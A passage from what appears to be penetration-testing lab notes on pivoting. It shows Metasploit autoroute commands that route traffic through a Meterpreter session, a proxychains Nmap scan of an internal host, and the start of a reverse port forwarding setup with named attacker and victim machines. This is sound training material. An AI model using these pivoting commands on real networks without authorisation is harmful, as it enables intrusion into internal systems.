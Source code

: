 **6.** Finally, we need to tell our socks_proxy module to route all the traffic via our Meterpreter session. Use the post/multi/manage/autoroute module from Metasploit to add routes for the 172.16.5.0 subnet and then route all our proxychains traffic.

```shell-session
use post/multi/manage/autoroute
set SESSION 1
set SUBNET $NewSubnet
run
# this will bind session 1 to the $NewSubnet discovered in the victim's machine 1, doing the pivoting

# It is also possible to add routes with autoroute by running autoroute from the initial Meterpreter session (session 1):
run autoroute -s $NewDiscoveredIp/23

# List the active routes:
run autoroute -p
```

**7.**  Finally, use proxychains to route our Nmap traffic via our Meterpreter session.

```shell-session
proxychains nmap $NewDiscoveredIp -p3389 -sT -v -Pn
```


### Reverse Port Forwarding

For better understanding, we will have the following machines:

- Attacker machine: Kali, with IP 192.64.166.2
- 0.Victim's machine 1: Meta_3, a ubuntu machine with 2 networks interfaces: 192.64.166.3 and 192.182.147.2
- Victim's machine 2: Meta_2, a windows machine with nic 192.182.147.3

![lateral-movement.png](img/lateral-movement.png)

 
#### SSH Reverse Port Forwarding
